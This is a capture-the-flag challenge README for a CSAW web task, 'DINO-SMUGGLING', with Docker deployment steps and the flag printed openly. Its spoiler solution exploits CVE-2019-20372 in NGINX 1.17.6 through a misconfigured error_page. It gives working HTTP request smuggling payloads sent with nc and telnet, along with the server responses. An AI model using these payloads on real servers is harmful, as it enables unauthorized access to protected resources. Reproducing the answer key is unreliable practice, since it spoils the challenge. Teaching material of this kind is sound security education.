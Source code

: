 # DINO-SMUGGLING

Category: Web

# Description

Smuggle HTTP request on vulnerable NGINX server to get a flag. 

# Deployment

        sudo docker build . -t dino
        sudo docker run -d -p 3009:3009 dino:latest

# Flag

csawctf{d0nt_smuggl3_Fla6s_!}

# Author
rollingcoconut

# Solution

<details>
    <summary> Spoiler warning </summary>


        https://www.rapid7.com/db/vulnerabilities/alpine-linux-cve-2019-20372/


        The docker container is running a vulnerable version of  NGINX -- 1.17.6
        Certain 302 redirections done in the error_page directive can allow for HTTP request smuggling.



        Here is the relevant code snippet from the vulnerable NGINX.conf:

        
            <i>(nginx.conf)</i>
            ...                                                                                                                                                                                                                                            
            location /flag {
                return 401;
            }

            error_page 401 http://localhost/flag.txt;
            ...
                                   


        To exploit the user can use telnet or nc where the vulnerable server is 192.168.56.6:3009

        # NC
            
        printf "GET /flag HTTP/1.1\r\nHost: 192.168.56.6:3009\r\nContent-Length: 172\r\n\r\nGET /flag.txt HTTP/1.1\r\nHost: localhost:3009\r\n\r\n" | nc 192.168.56.6 3009 -k
        HTTP/1.1 302 Moved Temporarily
        Server: nginx/1.17.6
        Date: Sat, 09 Sep 2023 15:10:30 GMT
        Content-Type: text/html
        Content-Length: 145
        Connection: keep-alive
        Location: http://localhost:3009/flag.txt
        
        <html>
        <head><title>302 Found</title></head>
        <body>
        <center><h1>302 Found</h1></center>
        <hr><center>nginx/1.17.6</center>
        </body>
        </html>
        HTTP/1.1 200 OK
        Server: nginx/1.17.6
        Date: Sat, 09 Sep 2023 15:10:30 GMT
        Content-Type: text/plain
        Content-Length: 29
        Connection: keep-alive
        
        csawctf{d0nt_smuggl3_Fla6s_!}
        
        
        # TELNET 
        
        telnet 192.168.56.6 3009
        Trying 192.168.56.6...
        Connected to 192.168.56.6.
        Escape character is '^]'.
        GET /flag HTTP/1.1
        Host: 192.168.56.6:3009
        Content-Length: 172
        
        GET /flag.txt HTTP/1.1
        Host: localhost:3009
        
        HTTP/1.1 302 Moved Temporarily
        Server: nginx/1.17.6
        Date: Sat, 09 Sep 2023 15:11:33 GMT
        Content-Type: text/html
        Content-Length: 145
        Connection: keep-alive
        Location: http://localhost:3009/flag.txt
        
        <html>
        <head><title>302 Found</title></head>
        <body>
        <center><h1>302 Found</h1></center>
        <hr><center>nginx/1.17.6</center>
        </body>
        </html>
        HTTP/1.1 200 OK
        Server: nginx/1.17.6
        Date: Sat, 09 Sep 2023 15:11:33 GMT
        Content-Type: text/plain
        Content-Length: 29
        Connection: keep-alive
        
        csawctf{d0nt_smuggl3_Fla6s_!}
        Connection closed by foreign host.
        

</details>
